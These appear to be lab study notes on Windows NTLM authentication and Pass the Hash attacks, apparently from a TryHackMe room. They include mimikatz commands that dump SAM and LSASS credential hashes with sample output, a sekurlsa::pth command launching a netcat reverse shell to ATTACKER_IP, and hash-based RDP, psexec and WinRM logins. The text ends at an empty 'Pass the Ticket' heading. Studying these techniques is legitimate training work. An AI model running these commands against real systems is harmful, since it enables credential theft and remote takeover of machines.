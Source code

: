 
> [!NOTE] Types of Auth
> - NTLM authentication
> - Kerberos authentication

#### NTLM Auth

    1. The client sends an authentication request to the server they want to access.
    2. The server generates a random number and sends it as a challenge to the client.
    3. The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
    4. The server forwards both the challenge and the response to the Domain Controller for verification.
    5. The domain controller uses the challenge to recalculate the response and compares it to the initial response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server.
    6. The server forwards the authentication result to the client.

### Pass the Hash (PTH)
Dump hashes
```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50



mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484


mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

```bash
user@AttackBox$ nc -lvp 5555
```

```bash
Connect to RDP using PtH:
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

Connect via psexec using PtH:
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

Connect to WinRM using PtH:
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

```

### Pass the Ticket(PTT)
